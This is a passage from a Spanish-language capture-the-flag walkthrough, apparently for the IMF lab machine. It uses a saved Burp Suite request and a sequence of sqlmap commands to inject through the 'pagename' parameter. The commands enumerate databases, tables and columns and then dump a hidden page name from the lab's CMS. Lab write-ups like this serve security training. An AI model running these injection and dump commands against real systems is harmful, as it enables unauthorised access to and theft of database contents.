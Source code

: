 > El %27 es el carácter `'` en url-encoding

Si guardamos la request sin el `'` con burpsuite y usamos `sqlmap.py` podremos dumpear la base de datos.

> Para guardar una request de BurpSuite: Click derecho en la request -> Copy to file

1. Primero vemos las bases de datos:

```bash
sqlmap -r req.req -p pagename --dbs --risk=3 --level=5
```

> El archivo req.req es mi request

Y vemos que hay una base de datos llamada `admin` así que la usaremos para ver que tablas tiene.

2. Ver las tablas de la base de datos `admin`:

```bash
sqlmap -r req.req -p pagename -D admin --tables --risk=3 --level=5
```

Vemos una tabla llamada pages.

3. Vemos que columnas tiene:

```bash
sqlmap -r req.req -p pagename -D admin -T pages --columns --risk=3 --level=5
```

Vemos que tiene dos columnas: `pagedata` y `pagename`. Este último tiene el mismo nombre del parámetro por el cual estamos inyectando *SQL*. 

4. Dumpeamos los pagenames para ver si hay alguno oculto:

```bash
sqlmap -r req.req -p pagename -D admin -T pages -C pagename --dump --columns --risk=3 --level=5
```

Nos damos cuenta de que efectivamente hay un pagename oculto: `tutorials-incomplete`.

Si entramos en `http://imf.local/imfadministrator/cms.php?pagename=tutorials-incomplete` podemos ver una imagen con un QR.
